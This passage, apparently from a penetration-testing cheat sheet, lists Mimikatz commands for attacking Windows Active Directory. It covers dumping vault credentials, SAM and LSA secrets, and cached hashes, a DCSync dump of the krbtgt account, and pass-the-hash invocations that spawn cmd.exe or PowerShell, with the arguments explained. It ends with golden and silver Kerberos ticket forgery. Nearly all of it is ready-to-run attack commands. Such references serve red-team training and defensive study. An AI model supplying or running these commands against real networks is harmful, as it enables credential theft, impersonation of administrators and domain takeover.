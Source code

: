         -   vault::list

        -   token::elevate

        -   vault::cred

        -   vault::list

        -   lsadump::sam

        -   lsadump::secrets

        -   lsadump::cache

        -   token::revert

        -   lsadump :: dcsync -\> Dump the hashes of the LSA server by
            posing as a DC

        -   lsadump::dcsync /user:domain\\krbtgt /domain:lab.local

    -   **Mimikatz pass the hash**

        -   sekurlsa::pth /user:Administrateur /domain:chocolate.local
            /ntlm:{NTLM\_hash}

        -   sekurlsa::pth /user:Administrateur /domain:chocolate.local
            /aes256:{aes\_key}

        -   sekurlsa::pth /user:Administrateur /domain:chocolate.local
            /ntlm:{NTLM\_hash}/aes256: {aes\_key}

        -   sekurlsa::pth /user:Administrator /domain:WOSHUB
            /ntlm:{NTLM\_hash} /run:cmd.exe

        -   sekurlsa::pth /user:Administrator /domain:IDENTITY
            /ntlm:{NTLM\_hash} /run:powershell

        -   Arguments Explanation:

            -   / user: the name of the account you want to usurp\
                / domain: FQDN of the domain or workgroup if you work
                outside domain\
                / rc4 or / ntlm: RC4 key or hash NTLM of the user
                password\
                / aes128 (optional): key AES128 derived from user
                password and domain\
                / aes256 (optional): AES256 key derived from user
                password and domain\
                / run (optional): command to be executed under this
                identity

    -   **Mimikatz golden ticket**

        -   kerberos::golden
            /domain:\<domain\_name\>/sid:\<domain\_sid\>
            /rc4:\<krbtgt\_ntlm\_hash\> /user:\<user\_name\> -\>golden
            tiket

        -   kerberos::golden
            /domain:\<domain\_name\>/sid:\<domain\_sid\>
            /rc4:\<ntlm\_hash\> /user:\<user\_name\>
            /service:\<service\_name\>
            /target:\<service\_machine\_hostname\> -\>silver ticket
